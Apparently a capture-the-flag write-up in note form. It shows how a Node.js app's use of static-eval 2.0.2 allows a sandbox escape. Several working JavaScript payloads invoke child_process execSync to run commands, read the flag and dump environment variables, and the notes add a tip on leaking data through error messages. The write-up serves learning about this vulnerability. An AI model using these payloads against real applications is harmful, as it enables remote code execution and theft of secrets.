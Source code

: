 - Takeaways:
	- pay attention to error messages being returned from the app, might be possible to use them to exfiltrate data rather than using blind methods
	- check GitHub commits for open source projects in order to find security fixes and other changes that could lead to compromise in different versions of libraries
	- escaping multiple layers of nested quotes (single, double, backtick) can be tricky, helps to try multiple slashes for each depending on context
- provided with the source code for a Node.js application
- after looking around, it becomes clear that the app takes in a JSON object by POST request and assigns the body to a `student` variable
- the `formula` field of the `student` object is then parsed into an AST using `esprima` before being evaluated using the `static-eval`	NPM package
- the app is using the `2.0.2` version of `static-eval` which had some of the easier to find vulnerabilities already fixed
- additional searching leads to a vulnerability that allows you to escape the `static-eval`	sandbox by using template literals
	- ```(function(x){return `${eval('console.log(process.env)')}` })()```
	- ```(function(x){return `${eval('global.process.mainModule.constructor._load("child_process").execSync("ls -al").toString()')}` })()```
	- https://nvd.nist.gov/vuln/detail/CVE-2021-23334#vulnCurrentDescriptionTitle
- searching after the fact leads to other vulnerabilities that were patched and had specific tests added in GitHub that could have been used to get code execution outside of the sandbox
	- `(function myTag(y){return ""[!y?"__proto__":"constructor"][y]})("constructor")("console.log(process.env)")()`
	- `(function (y){return ''[y?y:'length'][y]})('constructor')('throw new TypeError(process.mainModule.require(\"child_process\").execSync(\"cat flag*\").toString())')()`
	- https://hilb3r7.github.io/walkthroughs/babybreakinggrad.html 
